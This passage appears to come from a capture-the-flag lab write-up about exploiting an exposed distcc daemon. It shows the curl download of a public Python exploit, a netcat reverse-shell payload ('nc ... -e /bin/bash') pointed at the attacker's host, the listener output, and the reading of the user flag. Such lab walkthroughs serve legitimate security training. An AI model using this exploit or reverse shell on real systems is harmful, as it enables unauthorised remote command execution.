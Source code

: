 ## distcc

I did not know what distcc was. I looked it up, it's a distributed compiler for C/C++.

I checked for exploit, SearchSploit found one.

```bash
$ searchsploit distcc
-----------------------------------------------------------------------------------
 Exploit Title                                                                                                                                                                                           |  Path
-----------------------------------------------------------------------------------
DistCC Daemon - Command Execution (Metasploit)    | multiple/remote/9915.rb
-----------------------------------------------------------------------------------
Shellcodes: No Results
```

I tried to avoid Metasploit when possible. It works well, but since it does all the work, there is not much to learn. I found a [Python script](https://github.com/galenlim/distcc-exploit-python) that is a port of the Metasploit exploit. It connects to the port, then send a reverse shell command disguised as compilation command. 

I downloaded the script. 

```bash
$ curl https://raw.githubusercontent.com/galenlim/distcc-exploit-python/master/distcc_exploit.py -o distcc_exploit.py
```

Fixed the payload on line 18, to go to my machine.

```python
payload = "nc 1.1.1.1 4444 -e /bin/bash"
```

Then I started a netcat listener and launched the script. 
```bash
$ python distcc_exploit.py target 3632
[*] Attempting exploit...
Check your reverse handler...
```

I got the connection on my listener. 

```bash
$ nc -klvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.129.130.136 41112

whoami
daemon
```

I looked in the home folders and found the user flag.

```bash
ls /home
ftp
makis
service
user

ls /home/makis
user.txt

cat /home/makis/user.txt
REDACTED
```
